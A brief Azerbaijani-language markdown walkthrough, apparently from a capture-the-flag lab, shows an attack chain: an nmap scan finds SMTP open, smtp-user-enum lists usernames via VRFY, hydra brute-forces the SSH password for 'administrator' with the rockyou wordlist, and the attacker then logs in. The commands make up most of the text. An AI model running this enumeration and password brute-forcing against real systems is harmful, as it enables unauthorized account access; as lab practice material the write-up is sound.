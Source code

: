# ilk olaraq nmap skani atdiqdan sonra bize 25ci port yeni smtp portunu aciq olduqunu gosterdikden sonra biz smtp-user-enum toolu ile user adlarini default olaraq bize gosterir
Tool

    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
## daha sonra bize default userleri gosterdikden sonra (meselen administrator) biz hydra vasitesi ile userleri bruteforce edirik
Tool 

    hydra -l  administrator -P  /usr/share/wordlists/rockyou.txt ssh://10.10.224.200

  ## user passwd tapdiqdan sonra ssh ile daxil oluruq 
    
